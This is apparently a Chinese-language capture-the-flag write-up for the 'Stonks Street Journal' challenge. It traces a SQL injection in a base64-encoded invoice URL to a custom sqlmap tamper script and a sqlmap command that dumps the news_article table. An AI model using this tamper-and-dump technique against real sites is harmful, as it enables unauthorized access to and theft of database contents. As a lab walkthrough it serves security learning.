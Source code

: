 ```yaml
---
title: Stonks Street Journal
categories:
- General
- External sources
feature_text: |
  Stonks Street Journal


---
```




Stonks Street Journal



<!-- more -->

### 2021.12.2 

### Stonks Street Journal

在网站成功注册后可以查看 `invoice`

查看时发现URL末尾有一串看起来像base64编码的字符串

``http://ssj.rumble.host/legacy_invoice_system/Umljay0yMDIxLTExLTI5`

解码后得到`USERNAME-YEAR-MONTH-DAY`

在username后加上`'`，发生SQL报错

```
syntax error at or near "2021"
LINE 1: ...riber WHERE username='jumaoo1'' AND signup_date='2021-11-27...
                                                             ^
```

输入的字符串似乎被拆分成了username和signup date然后被传递到SQL查询中，没有过滤

使用一个自定义SQLMap篡改脚本，利用脚本把payload附加到signup date后面，然后对字符串base64编码，在传递到自定义注入点`GET /legacy_invoice_system/*`

脚本：

```
import base64
from lib.core.enums import PRIORITY

# Define which is the order of application of tamper scripts against the payload
__priority__ = PRIORITY.NORMAL   //记住就行（？）

def tamper(payload, **kwargs):    //kwargs就是字典中的key+value
    retVal = base64.b64encode(('jumaoo1-2021-11-27' + payload).encode()).decode()
    
    return retVal
```

塞进SQLmap里执行：

`sqlmap -r invoice.req --tamper tamper.py --threads 10 -T news_article --dump`

- -r：抓包
- --tamper：脚本
- --threads：多线程
- -T：表名